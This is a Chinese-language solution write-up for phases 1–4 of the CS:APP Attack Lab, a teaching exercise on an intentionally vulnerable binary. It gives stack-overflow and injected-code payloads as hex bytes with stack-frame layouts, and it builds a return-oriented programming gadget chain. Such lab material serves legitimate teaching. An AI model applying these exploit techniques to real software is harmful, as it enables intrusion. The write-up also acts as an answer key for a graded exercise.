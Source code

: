 # Part I: Code Injection Attacks
由于Lab程序编译平台比较老，运行时会出现segment fault。可以自己链接一个printf函数来解决这个问题。详细见[Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04](https://blog.rijuyuezhu.top/posts/db646f34/)  
运行时使用如下命令
```
$ LD_PRELOAD=./printf.so ./ctarget -q
```
或在GDB中使用
```
(gdb) set environment LD_PRELOAD=./printf.so
```

## Phase 1
阅读`getbuf`函数反汇编代码可以发现调用时分配了`0x28`大小的栈空间，该空间包括了`BUFFER_SIZE`指定的空间大小和编译器预留的空间。再往上`0x8`字节即为返回地址。输入字符串覆盖该地址即可。
```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
```
查找`touch1`函数的地址为`0x4017c0`, 小端表示并扩展到`0x8`字节得到
```
c0 17 40 00 00 00 00 00
```
前面随便填充`0x28`字节的字符即可

## Phase 2
使用gdb查看运行时栈地址, 注意到调用`getbuf`后栈地址维持`0x5561dca0`不变, 考虑直接写入指令进行攻击
注意此时栈指针`%rsp`经过经过一次`ret`后值为`0x5561dca8`, 顶部 8 bytes写入`touch2`地址进行`ret`
```
0x5561dca8 ec 17 40 00 00 00 00 00
```
继续往上8 bytes用于存储需要传入的`cookie`, 起始地址距栈顶`0x8`
```
0x5561dcb0 fa 97 b9 59 00 00 00 00
```
攻击执行的汇编指令如下
```
mov 0x8(%rsp),%rdi
ret
```
参考已有的反汇编代码可以写为16进制指令
```
mov 0x8(%rsp),%rdi  48 8b 7c 24 08
ret                 c3
```
指令共6 bytes. 反推从`getbuf`返回时的执行指令地址为`0x5561dca8 + 0x8 + 0x8 = 0x5561dcb8`
整理为写入后的栈帧
```
0x5561dcbd c3 
0x5561dcb8 48 8b 7c 24 08
0x5561dcb0 fa 97 b9 59 00 00 00 00
0x5561dca8 ec 17 40 00 00 00 00 00
0x5561dca0 b8 dc 61 55 00 00 00 00 
```

## Phase 3
方法类似Phase 2, 区别在于写入的值和栈上数据的位置布局. 首先考虑第一次`ret`跳转后, 顶部写入`touch3`地址准备进行下一次`ret`
```
0x5561dca8 fa 18 40 00 00 00 00 00
```
写入`cookie`的十六进制表示字符串(包含一个`\0`终止符)
```
0x5561dcb8 00
0x5561dcb0 35 39 62 39 39 37 66 61
```
此后写入执行代码
```
lea 0x8(%rsp),%rdi
ret
```
参考已有的反汇编代码改写为二进制指令
```
lea 0x8(%rsp),%rdi   48 8d 7c 24 08
ret                  c3
```
故首次写入的ret返回地址应为`0x5561dca8 + 0x8 + 0x8 + 0x1 = 0x5561dcb9`. 整理写入后的栈帧
```
0x5561dcbe c3
0x5561dcb9 48 8d 7c 24 08
0x5561dcb8 00
0x5561dcb0 35 39 62 39 39 37 66 61
0x5561dca8 fa 18 40 00 00 00 00 00
0x5561dca0 b9 dc 61 55 00 00 00 00 
```

## Phase 4
由于可以在Gadget中使用`pop`指令将数据从栈保存至寄存器
搜索`pop %rdi`的二进制指令`5f`没有搜索到相关片段, 可以使用不直接存入`%rdi`, 而是先`pop`到某一寄存器后通过`movq`指令存入`%rdi`.  
依此搜索`pop`各个寄存器的二进制指令, 仅有`pop %rax`对应的`58`指令在代码段出现
```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret    

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	ret    

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret    
```
排除无法解析为指令的`92`, 剩下两个函数均可用作Gadget.
下一步寻找形如`movq %rax,%rdi`的转移指令, 找到
```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret    
```
执行转移后即`ret`. 使用这两个函数完成ROP攻击.  整理写入数据
```
ec 17 40 00 00 00 00 00 <- touch2入口地址
a2 19 40 00 00 00 00 00 <- addval_273中的movq地址
fa 97 b9 59 00 00 00 00 <- cookie
ab 19 40 00 00 00 00 00 <- addval_219中的pop指令地址
```
